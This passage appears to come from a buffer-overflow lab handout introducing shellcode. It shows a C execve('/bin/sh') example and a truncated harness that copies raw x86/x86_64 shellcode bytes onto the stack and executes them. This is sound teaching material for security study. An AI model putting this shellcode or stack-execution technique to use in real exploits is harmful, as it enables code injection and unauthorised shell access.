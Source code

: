 ## Step 1: Getting familiar with shellcode

The ultimate goal of buffer-overflow attacks is
to inject malicious code into the target program,
so the code can be executed using the target program’s privilege.
Shellcode is widely used in most code-injection attacks.
Let us get familiar with it in this step.

### The C version of shellcode

A shellcode is basically a piece of code that launches a shell.
If we use C code to implement it, it will look like the following:

```c
#include <stdio.h>
int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Unfortunately,
we cannot just compile this code and use the binary code as our shellcode
(modern compiler does way more things than C to binary translation).

The best way to write a shellcode is to use assembly code.
In this lab,
we only provide the binary version of a shellcode,
without explaining how it is written or how works (it is non-trivial).
If you are interested in
how shellcode works and/or
how write a shellcode from scratch,
you can learn that from a diverse range of tutorials online,
such as the [shellcode lab](https://seedsecuritylabs.org/Labs_20.04/Software/Shellcode/)
in the [SEED Labs](https://seedsecuritylabs.org/labs.html) project.

### Invoking the shellcode

In this task,
we will test the shellcode that invokes `/bin/sh` (i.e., spawns a shell)
by putting it into a C program.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv) {
    char code[500];
    strcpy(code, shellcode);        // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                         // Invoke the shellcode from the stack
```